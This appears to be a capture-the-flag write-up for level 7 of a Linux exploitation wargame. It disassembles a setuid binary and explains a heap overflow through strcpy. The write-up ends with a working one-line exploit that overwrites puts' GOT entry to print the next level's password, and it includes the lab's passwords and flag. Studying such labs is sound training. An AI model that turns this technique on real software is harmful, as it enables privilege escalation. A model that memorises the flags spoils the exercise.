



# Level 7

## Setup
We find a binary file at the root of the user **`level7`** named *`./level7`*.

To analyze the binary file we copy it to our own environment with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4243 level7@localhost:/home/user/level7/level7 .
```

### Radare2

I am running `r2` inside docker.
```bash
docker run -it -v "$bin_file_path":/mnt/binary radare/radare2 bash -c "r2 /mnt/binary"
```

## Binary Analysis

On the `r2` prompt we need to run a couple of commands to analyze the `main` function.
```bash
[0x08048de8]> aaa # Analyze the binary
...
[0x08048ec0]> v # Enter visual mode
```

<p align="center">
   
   
</p>

### Code with addresses
```assembly
(gdb) set disassembly-flavor intel
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
0x08048410  __gmon_start__
0x08048410  __gmon_start__@plt
0x08048420  __libc_start_main
0x08048420  __libc_start_main@plt
0x08048430  fopen
0x08048430  fopen@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  m
0x08048521  main
0x08048610  __libc_csu_init
0x08048680  __libc_csu_fini
0x08048682  __i686.get_pc_thunk.bx
0x08048690  __do_global_ctors_aux
0x080486bc  _fini
(gdb) info variables
All defined variables:

Non-debugging symbols:
0x080486d8  _fp_hw
0x080486dc  _IO_stdin_used
0x08048824  __FRAME_END__
0x08049828  __CTOR_LIST__
0x08049828  __init_array_end
0x08049828  __init_array_start
0x0804982c  __CTOR_END__
0x08049830  __DTOR_LIST__
0x08049834  __DTOR_END__
0x08049838  __JCR_END__
0x08049838  __JCR_LIST__
0x0804983c  _DYNAMIC
0x08049908  _GLOBAL_OFFSET_TABLE_
0x08049938  __data_start
0x08049938  data_start
0x0804993c  __dso_handle
0x08049940  completed.6159
0x08049944  dtor_idx.6161
0x08049960  c
(gdb) disassemble m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   ebp
   0x080484f5 <+1>:	mov    ebp,esp
   0x080484f7 <+3>:	sub    esp,0x18
   0x080484fa <+6>:	mov    DWORD PTR [esp],0x0
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    edx,0x80486e0
   0x0804850b <+23>:	mov    DWORD PTR [esp+0x8],eax
   0x0804850f <+27>:	mov    DWORD PTR [esp+0x4],0x8049960
   0x08048517 <+35>:	mov    DWORD PTR [esp],edx
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave  
   0x08048520 <+44>:	ret    
End of assembler dump.
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   ebp
   0x08048522 <+1>:	mov    ebp,esp
   0x08048524 <+3>:	and    esp,0xfffffff0
   0x08048527 <+6>:	sub    esp,0x20
   0x0804852a <+9>:	mov    DWORD PTR [esp],0x8
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x0804853a <+25>:	mov    eax,DWORD PTR [esp+0x1c]
   0x0804853e <+29>:	mov    DWORD PTR [eax],0x1
   0x08048544 <+35>:	mov    DWORD PTR [esp],0x8
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    edx,eax
   0x08048552 <+49>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048556 <+53>:	mov    DWORD PTR [eax+0x4],edx
   0x08048559 <+56>:	mov    DWORD PTR [esp],0x8
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:	mov    DWORD PTR [esp+0x18],eax
   0x08048569 <+72>:	mov    eax,DWORD PTR [esp+0x18]
   0x0804856d <+76>:	mov    DWORD PTR [eax],0x2
   0x08048573 <+82>:	mov    DWORD PTR [esp],0x8
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:	mov    edx,eax
   0x08048581 <+96>:	mov    eax,DWORD PTR [esp+0x18]
   0x08048585 <+100>:	mov    DWORD PTR [eax+0x4],edx
   0x08048588 <+103>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804858b <+106>:	add    eax,0x4
   0x0804858e <+109>:	mov    eax,DWORD PTR [eax]
   0x08048590 <+111>:	mov    edx,eax
   0x08048592 <+113>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048596 <+117>:	mov    eax,DWORD PTR [eax+0x4]
   0x08048599 <+120>:	mov    DWORD PTR [esp+0x4],edx
   0x0804859d <+124>:	mov    DWORD PTR [esp],eax
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080485a8 <+135>:	add    eax,0x8
   0x080485ab <+138>:	mov    eax,DWORD PTR [eax]
   0x080485ad <+140>:	mov    edx,eax
   0x080485af <+142>:	mov    eax,DWORD PTR [esp+0x18]
   0x080485b3 <+146>:	mov    eax,DWORD PTR [eax+0x4]
   0x080485b6 <+149>:	mov    DWORD PTR [esp+0x4],edx
   0x080485ba <+153>:	mov    DWORD PTR [esp],eax
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    edx,0x80486e9
   0x080485c7 <+166>:	mov    eax,0x80486eb
   0x080485cc <+171>:	mov    DWORD PTR [esp+0x4],edx
   0x080485d0 <+175>:	mov    DWORD PTR [esp],eax
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    DWORD PTR [esp+0x8],eax
   0x080485dc <+187>:	mov    DWORD PTR [esp+0x4],0x44
   0x080485e4 <+195>:	mov    DWORD PTR [esp],0x8049960
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	mov    DWORD PTR [esp],0x8048703
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    eax,0x0
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret    
End of assembler dump.
```

### Source

The equivalent program in C would be:
```C
#include <stdio.h>
#include <stdlib.h>

char *c = NULL;

int m()
{
  return printf("%s - %d\n", c, time(0));
}

int main(int argc, const char **argv, const char **envp)
{
  int eax; // eax
  _DWORD *v5; // [esp+18h] [ebp-8h]    argv[2]
  _DWORD *v6; // [esp+1Ch] [ebp-4h]    argv[1]

  v6 = (_DWORD *)malloc(8);
  *v6 = 1;
  v6[1] = malloc(8);
  v5 = (_DWORD *)malloc(8);
  *v5 = 2;
  v5[1] = malloc(8);
  strcpy(v6[1], argv[1]); // Vulnerable for buffer overflow
  strcpy(v5[1], argv[2]); // Vulnerable for buffer overflow
  eax = fopen("/home/user/level8/.pass", "r");
  fgets(&c, 68, eax); // 68 is the lenght of the flag from .pass
  // c has now the flag
  puts("~~"); // Call m() instead of puts()
  return 0;
}
```

The 2 arguments, `argv[1]` and `argv[2]`, are copied in `v6` and `v5` respectively with `strcpy` which is vulnerable for *buffer overflow*.
Then the function `fgets` saves the **flag** in the global variable `c`.

### Permissions
As we can see in the permissions of the executable file, the binary `./level7` is executed with the privileges of the user **level8**, the owner of the file.
```bash
level7@RainFall:~$ ls -l level7 
-rwsr-s---+ 1 level8 users 5648 Mar  9  2016 level7
```

## Reverse Engineer

We want to execute `m()` instead of `puts()`, that way we will be able to print the **flag** stored inside the *global* variable `c`.

To do that, we can try as in *level5*, to overwritte the `puts` address on the *GOT* table, to redirect the flow of the code to the `m` function.

<p align="center">
   
</p>

The address of the `puts` function on the *GOT* table is `0x8049928`. To be able to write the address `0x080484f4` of the `m` function there, we can do the following.

The function `strcpy` takes a *source* and a *destination* address, it would be perfect if we could just do something like this:

```C
strcpy(0x8049928, 0x080484f4)
```

Looking at this part of the code, we can see that we can make the second `strcpy` do that exact thing. Because we can overwrite the *destination* address of the second `strcpy` overflowing the buffer of the first `strcpy`.
```C
  strcpy(v6[1], <padding> ... 0x8049928);
  strcpy(0x8049928, 0x080484f4);
```

Now we have to figure out the padding needed to overwrite our *destination* address.

```bash
level7@RainFall:~$ ltrace ./level7  AAAA BBBB
__libc_start_main(0x8048521, 3, 0xbffff704, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                               = 0x0804a008
malloc(8)                                                               = 0x0804a018
malloc(8)                                                               = 0x0804a028
malloc(8)                                                               = 0x0804a038
strcpy(0x0804a018, "AAAA")                                              = 0x0804a018
strcpy(0x0804a038, "BBBB")                                              = 0x0804a038
fopen("/home/user/level8/.pass", "r")                                   = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

As we can see in our `ltrace`, the second destination is `0x0804a038`.

```bash
(gdb) break *0x080485a5  # Just after the first strcpy
Breakpoint 1 at 0x80485a5
(gdb) run AAAA BBBB
Starting program: /home/user/level7/level7 AAAA BBBB

Breakpoint 1, 0x080485a5 in main ()
(gdb) x/s $eax
0x804a018:	 "AAAA"
(gdb) x/8wx $eax
0x804a018:	0x41414141	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	[0x0804a038]	0x00000000	0x00000011
```

And with the help of `gdb` we can see that the *destination* address of the second `strcpy` is 20 bytes after the begining of our first input (`argv[1]`).

### Solution

Connect with `ssh -p 4243 level7@localhost`
Enter the password `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`

We can finally construct our payload like this:

```
argv[1] = <padding 20> + 0x8049928 (= \x28\x99\x04\x08)
argv[2] = 0x080484f4 (= \xf4\x84\x04\x08)
```

```bash
./level7 $(printf '%-20s\x28\x99\x04\x08' | tr ' ' '.') $(printf '\xf4\x84\x04\x08')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1708793862
```